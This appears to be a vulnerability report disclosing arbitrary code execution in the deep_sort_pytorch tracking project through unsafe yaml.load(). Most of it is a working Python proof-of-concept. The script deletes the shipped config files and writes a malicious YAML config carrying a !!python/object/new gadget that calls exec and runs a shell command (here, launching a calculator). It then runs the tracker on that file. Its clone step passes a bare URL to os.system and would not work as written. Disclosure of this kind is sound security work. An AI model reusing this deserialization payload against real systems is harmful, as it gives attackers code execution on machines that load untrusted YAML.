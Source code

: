 # Description
**Arbitrary Code Excecution** in [deepsort built on pytorch](https://github.com/ZQPei/deep_sort_pytorch).
MOT tracking using deepsort and yolov3 with pytorch.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**. All the scripts importing utils/parser.py is exploitable.
# Exploit code
**Python File**
```python
import os

os.system('https://github.com/ZQPei/deep_sort_pytorch.git')
os.chdir('deep_sort_pytorch/configs/')
os.system('pip install -r ../requirements.txt')
os.system('rm deep_sort*')
exploit = """DEEPSORT:
  REID_CKPT: "./deep_sort/deep/checkpoint/ckpt.t7"
  Exploit: !!python/object/new:type
    args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
    listitems: "__import__('os').system('xcalc')"
  MAX_DIST: 0.2
  MIN_CONFIDENCE: 0.3
  NMS_MAX_OVERLAP: 0.5
  MAX_IOU_DISTANCE: 0.7
  MAX_AGE: 70
  N_INIT: 3
  NN_BUDGET: 100
"""
open('deep_sort.yaml','w+').write(exploit)
os.chdir('../')
print(os.listdir('./'))
os.system('python yolov3_deepsort.py demo/demo.avi --config_deepsort configs/deep_sort.yaml')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/786618917497864233/Screenshot_from_2020-12-10_21-06-38.png)
![](https://cdn.discordapp.com/attachments/749019614352244777/786618921444311070/Screenshot_from_2020-12-10_21-04-48.png)
